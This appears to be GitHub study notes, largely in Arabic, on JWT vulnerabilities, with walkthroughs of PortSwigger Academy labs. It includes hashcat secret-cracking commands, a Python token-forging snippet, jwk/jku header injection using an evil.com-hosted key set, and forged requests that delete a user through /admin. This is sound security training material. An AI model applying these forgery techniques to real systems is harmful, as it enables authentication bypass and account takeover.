 # JWT


- <details>
    <summary>what is JWT?</summary>
  
  # 🔐 JWT Attacks - مقدمة
  
  ## ما هو JWT؟
  
  -   **JWT = JSON Web Token** → معيار لتمثيل البيانات كـ JSON بين
      الأنظمة.
  -   غالبًا يُستخدم في:
      -   **Authentication** (تأكيد هوية المستخدم)
      -   **Session management** (إدارة الجلسات)
      -   **Access control** (تحديد الصلاحيات)
  
  ------------------------------------------------------------------------
  
  ## بنية JWT
  
  يتكون JWT من **3 أجزاء** مفصولة بنقطة `.`:
  
  1.  **Header** → معلومات عن التوكن (الخوارزمية، النوع).
  2.  **Payload** → البيانات (claims) مثل اسم المستخدم والصلاحيات.
  3.  **Signature** → توقيع يعتمد على مفتاح سري للتحقق من عدم التلاعب.
  
  مثال:
  
      xxxxx.yyyyy.zzzzz
  
  ------------------------------------------------------------------------
  
  ## مثال عملي - Payload
  
  ``` json
  {
      "iss": "portswigger",
      "exp": 1648037164,
      "name": "Carlos Montoya",
      "sub": "carlos",
      "role": "blog_author",
      "email": "carlos@carlos-montoya.net",
      "iat": 1516239022
  }
  ```
  
  ### ملاحظات:
  
  -   **Readable**: أي شخص يقدر يفك البيانات لأنها Base64Url (ليست مشفرة).
  -   **Integrity**: التوقيع هو اللي يمنع التلاعب بالبيانات.
  
  ------------------------------------------------------------------------
  
  ## دور الـ Signature
  
  -   التوقيع يتكون من:
  
          HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret )
  
  -   عند استلام التوكن، السيرفر يتحقق من صحة التوقيع.
  
  -   أي تعديل في **Header** أو **Payload** يجعل التوقيع غير صالح.
  
  ------------------------------------------------------------------------
  
  ## نصائح عملية
  
  -   جرب على [jwt.io](https://jwt.io) → فك التوكن وشوف التغيير في
      التوقيع.
  -   استخدم أدوات مثل **Burp Suite** أو **jwt_tool** لاختبار ثغرات JWT.
  
  ------------------------------------------------------------------------
  
    
  </details>




- <details>
     <summary>JWT attacks</summary>

  
  # JWT Attacks Notes
  
  ## 1. JWT vs JWS vs JWE
  
  -   **JWT (JSON Web Token)**: مجرد Format قياسي للـ Tokens. ممكن يكون
      Signed أو Encrypted.
  -   **JWS (JSON Web Signature)**: JWT معمول له **توقيع** (Signature)
      باستخدام خوارزمية زي HS256 أو RS256 عشان يضمن سلامة البيانات.
  -   **JWE (JSON Web Encryption)**: JWT معمول له **تشفير** كامل عشان يحمي
      المحتوى من إنه يتشاف.
  
  ------------------------------------------------------------------------
  
  ## 2. كيف تظهر ثغرات JWT؟
  
  -   **ضعف في التحقق من التوقيع**:\
      مثال: السيرفر يقبل الـ "alg": "none" → يعني يعتبر الـ Token صالح من
      غير أي توقيع.
  
  -   **ضعف في اختيار الخوارزمية**:\
      مثلًا السيرفر متوقع RS256 (مفتاح عام/خاص) لكن يسمح بالتحويل إلى
      HS256 باستخدام المفتاح العام كـ secret.
  
  -   **تسريب الـ Secret**:\
      لو الـ Secret ضعيف أو متسرب، المهاجم يقدر يولّد توكنات صحيحة.
  
  -   **عدم التحقق من الـ Claims**:
  
      -   تجاهل الـ `exp` → التوكن يفضل صالح بعد انتهاء صلاحيته.
      -   تجاهل الـ `aud` → المهاجم ممكن يستخدم التوكن في تطبيق مختلف.
  
  ------------------------------------------------------------------------
  
  ## 3. Impact (التأثير)
  
  -   انتحال هوية المستخدمين (Authentication Bypass).
  -   سرقة صلاحيات (Privilege Escalation).
  -   وصول إلى بيانات أو عمليات محمية.
  
  ------------------------------------------------------------------------
  
  ## 4. مثال على JWT
  
  Header:
  
  ``` json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
  
  Payload:
  
  ``` json
  {
    "sub": "1234567890",
    "name": "Alice",
    "admin": true,
    "exp": 1724252214
  }
  ```
  
  Signature:
  
      HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  
  ------------------------------------------------------------------------
  
  ## 5. أمثلة على الهجوم
  
  ### 5.1 Algorithm None Attack
  
  ``` json
  {
    "alg": "none",
    "typ": "JWT"
  }
  ```
  
  → السيرفر يقبل التوكن بدون توقيع.
  
  ### 5.2 RS256 to HS256 Attack
  
  -   السيرفر متوقع RS256 (مفتاح عام/خاص).\
  -   المهاجم يغيرها إلى HS256 ويستخدم المفتاح **العام** كـ secret لتوليد
      توقيع صحيح.
  
  ------------------------------------------------------------------------
  
  # ✅ الخلاصة
  
  -   دايمًا تحقق من صحة الخوارزمية.
  -   لا تستخدم `none` algorithm.
  -   استخدم Secrets قوية أو مفاتيح صحيحة.
  -   راقب وصحّح Claims زي `exp`, `aud`, `iss`.
  
  

  </details>




- <details>
    <summary>JWT Attacks - Brute-forcing Secret Keys</summary>
    
    # JWT Attacks - Brute-forcing Secret Keys
    
    ## الفكرة الأساسية
    - بعض خوارزميات التوقيع مثل **HS256 (HMAC + SHA-256)** تعتمد على **secret key** (سلسلة نصية عشوائية).
    - لو الـ secret ضعيف أو قابل للتخمين (زي كلمة مرور ضعيفة)، المهاجم يقدر يعمل:
      - إنشاء JWT بأي header و payload.
      - إعادة التوقيع باستخدام الـ secret المخمَّن.
      - الحصول على توقيع صحيح وبالتالي تزوير الـ JWT.
    
    ---
    
    ## أخطاء شائعة من المطورين
    - نسيان تغيير الـ default/placeholder secret.
    - نسخ كود من الإنترنت ونسيان تعديل الـ hardcoded secret.
    - استخدام أسرار ضعيفة أو مشهورة.
    
    ---
    
    ## أداة Brute-force: Hashcat
    - **Hashcat** بيستخدم لمهاجمة مفاتيح JWT بسرعة.
    - موجود مسبقًا في **Kali Linux**.
    - لازم يكون عندك:
      - JWT صالح (موقَّع من السيرفر).
      - wordlist فيها أسرار معروفة.
    
    ---
    
    ## الأمر المستخدم
    ```bash
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    ```

    https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
    
    - ``-a 0`` → هجوم dictionary.
    
    - ``-m 16500`` → مود JWT HS256.
    
    - ``<jwt>`` → التوكن الهدف.
    
    - ``<wordlist>`` → قائمة .
    
    
    #### النتيجة
    
    > Hashcat بيجرب كل secret من الـ wordlist.
    
    لو لقى مطابقة، هيطبع بالشكل:
    
    ```ruby
    <jwt>:<identified-secret>
    ```
    
    لو شغلت الأمر أكتر من مرة، لازم تضيف:
    
    ```
    --show
    ```
    
    
    ```
    hashcat -a 0 -m 16500 <jwt> /usr/share/seclists/Passwords/JWT/jwt.secrets.list
    ```
    ---
    
    <details>
    
    ```
    python3 jwt_tool.py <jwt> -S hs256 -k <secret>
    ```
    
    ```python
    import jwt
    
    payload = {"username": "attacker", "role": "admin"}
    secret = "the_secret_you_found"
    
    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    ```
    
    
    
        
    </details>


  </details>






- <details>
    <summary>JWT header parameter injections</summary>

    # JWT Header Injection - JWK Parameter Exploit
    
    ## 📌 الفكرة العامة
    الـ **JWT** بيتكون من:
    1. **Header** → بيحتوي على معلومات زى `alg` (الخوارزمية) و ممكن كمان يحتوي على حاجات إضافية زى `kid`, `jwk`, `jku`.
    2. **Payload** → البيانات (claims).
    3. **Signature** → توقيع بيتعمل باستخدام secret أو مفتاح خاص (private key).
    
    السيرفر لما يستقبل الـ JWT بيستخدم الـ **Header** عشان يعرف:
    - أى خوارزمية تستخدم للتأكد من التوقيع (`HS256` / `RS256`).
    - أى مفتاح يجيب ويستخدم (من الـ `kid` أو `jwk` أو `jku`).
    
    ---
    
    ## 📌 التركيز هنا: `jwk` Injection
    - `jwk` = **JSON Web Key** → عبارة عن **مفتاح عام (Public Key)** مكتوب فى شكل JSON.
    - المفروض السيرفر عنده **قائمة محدودة** من المفاتيح اللى يثق فيها.
    - لكن لو السيرفر **مُسيء التهيئة (Misconfigured)**، ممكن يقبل أى مفتاح عام **موجود داخل التوكن نفسه** 🤦.
    
    ---
    
    ## 📌 إزاى نستغل ده؟
    1. نولد زوج مفاتيح (RSA Public/Private).
       - عندنا المفتاح **الخاص** (Private) → نوقع بيه التوكن.
       - عندنا المفتاح **العام** (Public) → نحطه جوه الهيدر فى باراميتر `jwk`.
    
    2. نعدل الـ Payload (مثلاً نغير `role` من `user` إلى `admin`).
    
    3. نوقع التوكن باستخدام **المفتاح الخاص بتاعنا**.
    
    4. نحط المفتاح العام جوه الهيدر:
       ```json
       {
         "alg": "RS256",
         "typ": "JWT",
         "jwk": {
           "kty": "RSA",
           "e": "AQAB",
           "n": "....",  
           "kid": "myCustomKey"
         }
       }
       ```
    
    5. لو السيرفر بيقبل ده → هيستخدم المفتاح العام اللى إحنا حاطينه ويتأكد من التوقيع، وده هيكون صحيح لأننا وقعنا بالمفتاح الخاص بتاعنا.  
       🔥 وده بيدينا **تحكم كامل فى التوكن**.
    
    ---
    
    ## 📌 الخطوات العملية (مثال باستخدام Burp + JWT Editor Extension)
    1. فى Burp → افتح تبويب **JWT Editor Keys**.
    2. اعمل **Generate RSA Key**.
    3. ابعت الريكوست اللى فيه JWT لـ **Repeater**.
    4. روح على تبويب الـ **JSON Web Token**.
    5. عدل الـ Payload (مثلاً غير `user":"test"` لـ `user":"admin"`).
    6. اضغط **Attack → Embedded JWK**.
    7. اختار المفتاح اللى انت مولده.
    8. ابعت الريكوست الجديد للسيرفر.
       - لو Misconfigured → هيديك access كأنك Admin.
    
    ---
    
    ## 📌 الخلاصة
    - **الـ jwk Injection** = بنخدع السيرفر يخلى باله من المفتاح العام بتاعنا.
    - إحنا نوقع بالتوكن بمفتاحنا الخاص.
    - السيرفر يتأكد باستخدام المفتاح اللى إحنا حطينه → فالتحقق يعدى.
    - النتيجة: نتحكم فى التوكن ونعدل أى Claims (زي role → admin).
    
    
    
    ---
    
    




  </details>
 







- <details>
      <summary>JWT header parameter injections lead to SSRF</summary>

    # Injecting self-signed JWTs via the `jku` parameter
    
    ## الفكرة الأساسية
    الـ JWT (JSON Web Token) أحيانًا بيحتوي في الـ header على باراميتر اسمه `jku`.  
    الـ `jku` ده بيشير إلى **رابط (URL)** بيحتوي على ملف JSON فيه **JWK Set** (مجموعة مفاتيح عامة) واللي السيرفر بيستخدمها للتحقق من التوقيع.
    
    بدل ما المفتاح العام يكون محطوط مباشرة في الـ token (زي ما بيحصل مع `jwk`)، السيرفر بيروح يجيب المفتاح من الرابط اللي في `jku`.
    
    ---
    
    ## JWK Set
    ملف JWK Set هو JSON بيحتوي على Array من المفاتيح العامة (JWKs).  
    مثال:
    
    ```json
    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
                "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
            },
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
                "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
            }
        ]
    }
    ```
    
    ممكن تلاقي السيرفر بيعرض الملف ده في لينك ثابت زي:
    ```
    /.well-known/jwks.json
    ```
    
    ---
    
    ## إزاي ممكن نستغل ده؟
    لو السيرفر بيثق في أي لينك بيتحط في `jku` (من غير فلترة كويسة):
    
    1. نولّد زوج مفاتيح RSA خاص بينا (Private + Public).
    2. نجهّز JWK Set يضم المفتاح **العام** بتاعنا ونرفعه على سيرفر نتحكم فيه (مثلاً `https://evil.com/jwks.json`).
    3. نولّد JWT جديد ونحط في الـ header:
       ```json
       {
         "alg": "RS256",
         "jku": "https://evil.com/jwks.json",
         "kid": "المفتاح_اللي_جهزناه"
       }
       ```
    4. نوقّع التوكن بالمفتاح **الخاص** اللي عندنا.
    5. السيرفر هيروح يجيب المفتاح العام من لينك `jku` اللي إحنا حاطينه (بتاعنا) وبالتالي يصدّق التوكن.
    
    بكده نقدر نزور أي claims جوة التوكن (مثلاً ندي نفسنا role = admin).
    
    ---
    
    ## طرق الحماية
    - السماح بتحميل المفاتيح من دومينات موثوقة فقط (whitelist).
    - تجاهل أي `jku` جاي من المستخدم.
    - التحقق إن الدومين مش متلاعب فيه (ضد SSRF/URL parsing tricks).
    - استخدام certificate pinning بدل ما يعتمد على جلب مفاتيح ديناميكياً.
    
    ---
    
    ## ملخص
    - `jku` = URL بيحتوي على مفاتيح عامة.
    - لو السيرفر مش بيفلتر اللينك → المهاجم ممكن يرفع JWK Set خاص بيه.
    - ده يسمح له يوقّع JWT بالتوكن بتاعه → السيرفر يصدّق إنه valid.
    - النتيجة = **تزوير JWT + تصعيد صلاحيات**.
    
        
  </details>
























































----



<details>
  <summary>Lab: JWT authentication bypass via unverified signature</summary>


1. login as **`wiener : peter`**

```http
GET /my-account?id=wiener HTTP/2

Host: 0a560020036c2252813698d200c400be.web-security-academy.net

Cookie: session=eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a560020036c2252813698d200c400be.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

### **`JWT`**

```json
eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
```

- <details>
      <summary>jwt.io</summary>
 
     <img width="1183" height="326" alt="image" src="https://github.com/user-attachments/assets/48bc8145-7604-4124-987c-5add5170affa" />

  
   </details>


- <details>
      <summary>JWT editor burp</summary>

    <img width="732" height="713" alt="image" src="https://github.com/user-attachments/assets/9e106d7c-2521-4e54-98c5-3a348e5d417e" />

  
   </details>




<img width="741" height="125" alt="image" src="https://github.com/user-attachments/assets/554d6f72-cedc-4ccd-972f-4f2618b5b91c" />

<img width="1526" height="738" alt="image" src="https://github.com/user-attachments/assets/045c7041-0caf-4d5f-8838-4a11d70e3479" />


> change path to **`/admin`**

<img width="1498" height="657" alt="image" src="https://github.com/user-attachments/assets/24d92751-c0cb-4d14-ba46-0e5338441d7d" />

<img width="1356" height="557" alt="image" src="https://github.com/user-attachments/assets/0c504fb1-c66e-4c15-867b-9cf29892604e" />

<img width="1430" height="491" alt="image" src="https://github.com/user-attachments/assets/1e4b1cdc-88ad-4dd8-9c95-0d9023896589" />




  
</details>



<details>
    <summary>Lab: JWT authentication bypass via flawed signature verification</summary>

1. login as **`wiener : peter`**

<img width="747" height="613" alt="image" src="https://github.com/user-attachments/assets/49400493-6f82-4b6d-84ae-7872076d755e" />

> change **`algo`** to `none` and remove the signeture and change **``carlos``** to **``administrator``**

<img width="1505" height="731" alt="image" src="https://github.com/user-attachments/assets/6a59e0d7-bc8b-4d6c-bb91-b314fa9d88d4" />


> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1505" height="734" alt="image" src="https://github.com/user-attachments/assets/4de7a1c3-ea34-4b8a-9a49-40a2b1d2d401" />

    
</details>







<details>
    <summary>Lab: JWT authentication bypass via weak signing key</summary>


```
eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M
```

<img width="742" height="614" alt="image" src="https://github.com/user-attachments/assets/45651d25-d4f7-434e-99d5-9667d0c0bcdb" />


```
hashcat -a 0 -m 16500 eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```

<img width="1374" height="273" alt="image" src="https://github.com/user-attachments/assets/f9e1cded-604e-47a2-834f-157ba0aba4c7" />

```
secret1
```

<img width="1546" height="745" alt="image" src="https://github.com/user-attachments/assets/09176375-61b2-4e35-9181-8eab68b53d87" />

> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1492" height="649" alt="image" src="https://github.com/user-attachments/assets/87127834-aeb3-4d22-b683-7c305bc7849e" />




    
</details>







<details>
    <summary>Lab: JWT authentication bypass via jwk header injection</summary>


```json
eyJraWQiOiJiZjFhOTg1Zi00NDgwLTQ1MmQtODQzZS0wMjIyMGUzZTg2YmYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyODc5MSwic3ViIjoid2llbmVyIn0.f2YN61RhTmuZSUdncWJi6PKVky_FYVsWfPW1ue50xJBGExuDmIpl7Ufhy8DlgGN_q2XWI0x5JG85bhoUcLc-8wed0RSPuu0P1C0g-f9naycBtAUDb_wNFCR7WdDSn-L8JJd8UWJS4-XAozvW9EFMk4q5D0YlfsCWPz2oe_JLKlvUug12MN3vRYp_wVgpzumwfAhrMowNNFpBOIjaBxc_hQXMmJ65qnqQD9h2lViue1PAPgXoHmLQUkl9qrvrEMTATCdlgQDFlmPAbgJxn4sVIDtTsi6cxLjaNnpip6fldEyexxSaE3U9x7rnrgTQf0k5vOrpxwtcgp_u1a6dmGPINg
```


<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/2e653954-72a1-45bc-9d5f-e9ca6f2923c1" />


---

> genrate ``RSA key``

<img width="798" height="656" alt="image" src="https://github.com/user-attachments/assets/5150b333-3fb7-4639-ab77-3c8bbb26b8fe" />


<img width="742" height="675" alt="image" src="https://github.com/user-attachments/assets/e3a19886-667c-4798-a3dd-2721db6b47fa" />


---

> send the request

<img width="1544" height="635" alt="image" src="https://github.com/user-attachments/assets/4756464e-c1fc-4120-9c2d-b098c596c390" />


----

> now change the path 

```
/admin/delete?username=carlos
```

<img width="1498" height="671" alt="image" src="https://github.com/user-attachments/assets/e2a03383-f021-41df-81e0-ac7105e16b12" />



<details>

## 1. إيه المفروض يحصل (السليم)؟

```


لما السيرفر يستقبل JWT موقّع، لازم يتأكد من التوقيع باستخدام المفتاح الصحيح فقط (secret أو public key اللي هو مبرمج عليه).

المفروض السيرفر مايثقش في أي مفتاح جاي من الكلاينت.
```

---

## 2. الغلط في الـ jwk injection

```


في بعض السيرفرات (لو misconfigured) بيكون الكود مكتوب بحيث يقرأ jwk من الـ JWT نفسه.

يعني السيرفر بدل ما يكون عنده public key ثابت يتحقق بيه، بيقول:
"تمام، الكلاينت بعتلي المفتاح بتاعه في الـ jwk.. هستخدمه للتحقق من التوقيع".

هنا الغلط: السيرفر بيثق في أي RSA key يبعته المهاجم.
```



<img width="1536" height="1024" alt=" Image Aug 29, 2025, 03_05_28 AM" src="https://github.com/user-attachments/assets/069ba80b-1485-41da-a7d8-da7467611bca" />


    
</details>

    
    
</details>





<details>
    <summary>Lab: JWT authentication bypass via jku header injection</summary>

```
eyJraWQiOiJjZmRmYTMyMS00YWZiLTRiZDUtODVlMS1lOTc1ODE3OGM3MTkiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMDAzOSwic3ViIjoid2llbmVyIn0.s_HN8Ym6FyTityp_B97oktH_TDGl0asia1ZBLgOue250fh60YvGcsof55XD7UXBsrodedGLLL_ou60RKuneFFCHFH6LmoGaoDec-866Bgfn7FJNcEuv7gK6Ao6UD0KI-MomyiLC9aA2UJ4N1quA2H_FQjSYj3atSUgETRuQW6VROKuFEEfguFpe4Yn9SOxQbH4gBdHZi_u4oAl1NOwmI3x5RUTw90b9W6FvA3DJUeGUdIsE2RSejEqcgIhP3bjkP4mlh9_Q0m5J7DLpYGXB5_MAjcy064xGNTBMji3yHaIup0tBhcvmNCsZ7M8h9wysUaraRdWCq4LIVEv6wbPkbFA
```

<img width="748" height="718" alt="image" src="https://github.com/user-attachments/assets/3602e8cc-d8b6-4806-96ef-8a1cebb3ef8c" />

----

> ## first we need to create new **`RSA key`** :

<img width="1022" height="566" alt="image" src="https://github.com/user-attachments/assets/4ae83bd0-a868-45e9-9483-ae9c0bf6f933" />

> ## now do **`copy public key as jwk`** and put it on exploit server and click ``store``

<img width="629" height="258" alt="image" src="https://github.com/user-attachments/assets/2d7ac00d-d32b-41f5-ba7f-34877dd31b88" />

<img width="1335" height="375" alt="image" src="https://github.com/user-attachments/assets/fdfb45fa-4583-4b3a-b8b2-b58cd1edeaff" />

```json
{
    "keys": [
        {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "n": "tb58PeMrMiHDWHPlUgrCVJjiq0oR44e8DN5K0lyJR0pA0qpctF_3_vubDlUL7pkrviNdEeJuVRrvB5nJmGi_q78ahHm-4Ik6eH9r7KFhM22ki4VZFH-kvWMpCBAv_4P8-4Z21ZPhUjxFHAA_PxF0_WawIxgXpNcxm9n_bry2f2zjQg4NX8cA_-WxTR71n9B8BNWbSkcVk6jcmjhj9Q-N1dYbBi1kLjtWH1qqf08icrD5CQ1hV0gGc5x0gOk_6wNAT5pf1u6krvVnkzSHSkwyUAhV9fqjk7-KEfPJ2JCpIudj5WuJh-52m-Sf5fUc3owfpV_w8K-FBJmTDs_K2wg5OQ"
}
    ]
}
```

> ## now take the `"kid"` and `exploit server url`

```
4a39d446-dd24-4c7e-86b8-183a1ac079a0
```

```
https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit
```

----

> ## change the header in burp suite:
> 1. put the new **`"kid"`**
> 2. set a new key **`"jku"`** with exploite server url
> 3. change user to **`administrator`**

<img width="809" height="695" alt="image" src="https://github.com/user-attachments/assets/10e4f9a0-7568-48eb-8373-3c23fa5170a8" />

```json
{
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "alg": "RS256",
    "jku": "https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit"
}
```

```json
{
    "iss": "portswigger",
    "exp": 1756510039,
    "sub": "administrator"
}
```


> click **`sign`** and send the request



<img width="1594" height="785" alt="image" src="https://github.com/user-attachments/assets/22276224-fe3a-4826-a350-da9a9c154296" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1521" height="758" alt="image" src="https://github.com/user-attachments/assets/73a69ba9-8e3e-4b91-8916-354155a84fbe" />

    
</details>



























